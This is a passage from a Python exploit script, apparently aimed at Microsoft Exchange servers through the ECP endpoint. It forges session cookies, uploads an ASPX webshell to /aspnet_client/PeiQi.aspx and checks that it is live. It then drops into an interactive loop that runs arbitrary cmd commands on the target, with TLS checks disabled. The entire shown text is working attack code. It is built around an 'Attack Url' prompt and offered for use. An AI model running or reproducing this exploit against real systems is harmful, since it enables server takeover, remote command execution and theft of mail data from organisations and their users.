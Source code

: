 ```python
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    print("\033[32m[o] 清除 OAB\033[0m")
    print("\033[32m[o] 正在验证 Webshell是否上传成功..........\033[0m")
    webshell_url = "https://" + target_url + "/aspnet_client/PeiQi.aspx"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=webshell_url, verify=False, allow_redirects=False)
    if response.status_code == 200 and "Name" in response.text:
        print("\033[32m[o] 上传 Webshll成功, 地址为:{}\033[0m".format("https://" + target_url + "/aspnet_client/PeiQi.aspx"))
        print("\033[32m[o] 响应为:\n{}\033[0m".format(response.text))
        while True:
            Cmd = str(raw_input("\033[35mCmd >>> \033[0m"))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            Cmd_url = "https://" + target_url + '/aspnet_client/PeiQi.aspx?PeiQi=Response.Write(new%20ActiveXObject("WScript.Shell").exec("cmd /c {}").StdOut.ReadAll());'.format(Cmd)
            response = requests.get(url=Cmd_url, verify=False, allow_redirects=False)
            print("\033[32m[o] 响应为:\n{}\033[0m".format(response.text))


if __name__ == '__main__':
    reload(sys)  
    sys.setdefaultencoding('utf8')  
    title()
    target_url = str(raw_input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Email = "Administrator@{}".format(get_fld("https://" + target_url))
    print("\033[32m[o] 请求地址:{}，使用的邮箱:{}\033[0m".format(target_url, Email))
    POC_1(target_url, Email)
```

